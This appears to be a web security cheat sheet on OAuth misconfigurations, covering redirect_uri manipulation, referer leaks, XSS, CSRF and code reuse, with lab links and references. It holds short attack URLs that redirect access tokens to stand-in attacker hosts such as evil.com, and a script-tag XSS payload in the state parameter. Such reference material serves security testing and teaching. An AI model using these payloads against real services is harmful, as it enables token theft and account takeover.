 # OAuth Misconfiguration

> OAuth is a widely-used authorization framework that allows third-party applications to access user data without exposing user credentials. However, improper configuration and implementation of OAuth can lead to severe security vulnerabilities. This document explores common OAuth misconfigurations, potential attack vectors, and best practices for mitigating these risks.

## Summary

- [Stealing OAuth Token via referer](#stealing-oauth-token-via-referer)
- [Grabbing OAuth Token via redirect_uri](#grabbing-oauth-token-via-redirect_uri)
- [Executing XSS via redirect_uri](#executing-xss-via-redirect_uri)
- [OAuth Private Key Disclosure](#oauth-private-key-disclosure)
- [Authorization Code Rule Violation](#authorization-code-rule-violation)
- [Cross-Site Request Forgery](#cross-site-request-forgery)
- [Labs](#labs)
- [References](#references)

## Stealing OAuth Token via referer

> Do you have HTML injection but can't get XSS? Are there any OAuth implementations on the site? If so, setup an img tag to your server and see if there's a way to get the victim there (redirect, etc.) after login to steal OAuth tokens via referer - [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544)

## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## Executing XSS via redirect_uri

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth Private Key Disclosure

Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.

## Authorization Code Rule Violation

> The client MUST NOT use the authorization code  more than once.  

If an authorization code is used more than once, the authorization server MUST deny the request
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.

## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (`https://example.com/callback?code=AUTHORIZATION_CODE`). This URL can be used in CSRF attacks.

> The client MUST implement CSRF protection for its redirection URI. This is typically accomplished by requiring any request sent to the redirection URI endpoint to include a value that binds the request to the user-agent's authenticated state. The client SHOULD utilize the "state" request parameter to deliver this value to the authorization server when making an authorization request.

## Labs

- [PortSwigger - Authentication bypass via OAuth implicit flow](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)
- [PortSwigger - Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)
- [PortSwigger - OAuth account hijacking via redirect_uri](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)
- [PortSwigger - Stealing OAuth access tokens via a proxy page](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)
- [PortSwigger - Stealing OAuth access tokens via an open redirect](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

## References

- [All your Paypal OAuth tokens belong to me - asanso - November 28, 2016](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html)
- [OAuth 2 - How I have hacked Facebook again (..and would have stolen a valid access token) - asanso - April 8, 2014](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
- [How I hacked Github again - Egor Homakov - February 7, 2014](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
- [How Microsoft is giving your data to Facebook… and everyone else - Andris Atteka - September 16, 2014](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)
- [Bypassing Google Authentication on Periscope's Administration Panel - Jack Whitton - July 20, 2015](https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/)
